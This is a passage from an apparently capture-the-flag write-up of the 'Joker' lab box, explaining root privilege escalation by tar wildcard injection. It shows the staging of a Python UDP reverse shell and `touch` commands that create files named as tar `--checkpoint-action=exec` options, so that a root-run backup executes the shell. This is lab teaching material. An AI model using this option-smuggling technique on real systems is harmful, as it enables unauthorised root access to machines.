 ### Second Privilege Escalation

We've gotten over quite a few hurdles but we still aren't there as we have yet to get a root shell. Inside of alekos' home directory are two interesting directorys, `development` and `backup`. `backup` is a folder containing backups of what looks to be the `development` folder which based off timestamps is running every five minutes. We can also see the tar files are owned by root. 

```
alekos@joker:~$ ls -al
total 116
drwxr-xr-x 7 alekos alekos  4096 May 19  2017 .
drwxr-xr-x 3 root   root    4096 May 16  2017 ..
drwxrwx--- 2 root   alekos 73728 Dec 31 01:20 backup
-rw------- 1 root   root       0 May 17  2017 .bash_history
-rw-r--r-- 1 alekos alekos   220 May 16  2017 .bash_logout
-rw-r--r-- 1 alekos alekos  3771 May 16  2017 .bashrc
drwx------ 2 alekos alekos  4096 May 17  2017 .cache
drwxr-x--- 5 alekos alekos  4096 May 18  2017 development
drwxr-xr-x 2 alekos alekos  4096 May 17  2017 .nano
-rw-r--r-- 1 alekos alekos   655 May 16  2017 .profile
drwxr-xr-x 2 alekos alekos  4096 May 20  2017 .ssh
-r--r----- 1 root   alekos    33 May 19  2017 user.txt
alekos@joker:~$ cd backup
alekos@joker:~/backup$ ls -al
total 67640
drwxrwx--- 2 root   alekos 73728 Dec 31 01:20 .
drwxr-xr-x 7 alekos alekos  4096 May 19  2017 ..
-rw-r----- 1 root   alekos 40960 Dec 25 04:25 dev-1514168701.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:30 dev-1514169001.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:35 dev-1514169301.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:40 dev-1514169601.tar.gz
-rw-r----- 1 root   alekos 40960 Dec 25 04:45 dev-1514169901.tar.gz
```

After checking for cron jobs there is no sign of what's running these backups to be found. After thinking on it for a while, it seems logical that whatever is running the backup is probably running something like `tar cf *`. Yet again another wildcard we can exploit. It just so happens that I've ran across this before while working on a vulnhub box. 

For a detailed explanation on what to do check [here](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt).

Short explanation is we can inject options and parameters into the tar command thats running by naming files with those options/parameters. The wildcard will process the filenames as actual commandline options and run them.

 The options we are going to use are `--checkpoint` and `--checkpoint-action`. With tar you can specify checkpoints and a checkpoint action which will run commands at each checkpoint. So all we have to do is set a checkpoint action to run another python UDP shell.

Let's stage our shell.
```
alekos@joker:~/development$ nano udpshell.py
alekos@joker:~/development$ chmod +x udpshell.py
```
Create our files. Note you have to use `--` to signify the end of command options so it will properly create the file names. 
```
alekos@joker:~/development$ touch -- --checkpoint=1
alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python udpshell.py'
```
